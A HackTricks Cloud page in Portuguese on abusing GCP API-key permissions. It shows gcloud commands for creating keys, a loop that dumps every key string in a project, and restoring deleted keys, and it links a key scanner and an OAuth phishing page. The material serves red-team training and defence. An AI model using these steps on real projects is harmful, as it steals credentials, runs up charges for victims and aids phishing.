 # GCP - Apikeys Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apikeys

As permissões a seguir são úteis para criar e roubar chaves de API, não está isso na documentação: _Uma chave de API é uma string simples criptografada que **identifica uma aplicação sem qualquer principal**. Elas são úteis para acessar **dados públicos anonimamente**, e são usadas para **associar** solicitações de API ao seu projeto para cota e **cobrança**._

Portanto, com uma chave de API você pode fazer com que a empresa pague pelo seu uso da API, mas você não poderá escalar privilégios.

Para mais informações sobre Chaves de API, consulte:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

Para outras maneiras de criar chaves de API, consulte:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Como você pode não saber quais APIs estão habilitadas no projeto ou as restrições aplicadas à chave de API que você encontrou, seria interessante executar a ferramenta [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) e verificar **o que você pode acessar com a chave de API.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Esta permissão permite **criar uma chave de API**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
Você pode encontrar um script para automatizar a [**criação, exploração e limpeza de um ambiente vulnerável aqui**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Observe que, por padrão, os usuários têm permissões para criar novos projetos e recebem o papel de Proprietário sobre o novo projeto. Portanto, um usuário poderia **criar um projeto e uma chave de API dentro deste projeto**.
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Essas permissões permitem **listar e obter todas as apiKeys e obter a Chave**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Você pode encontrar um script para automatizar a [**criação, exploração e limpeza de um ambiente vulnerável aqui**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Essas permissões permitem que você **liste e regenere chaves de API deletadas**. A **chave de API é fornecida na saída** após a **desdeleção** ser concluída:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Criar Aplicativo OAuth Interno para phishing de outros trabalhadores

Verifique a página a seguir para aprender como fazer isso, embora essa ação pertença ao serviço **`clientauthconfig`** [de acordo com a documentação](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
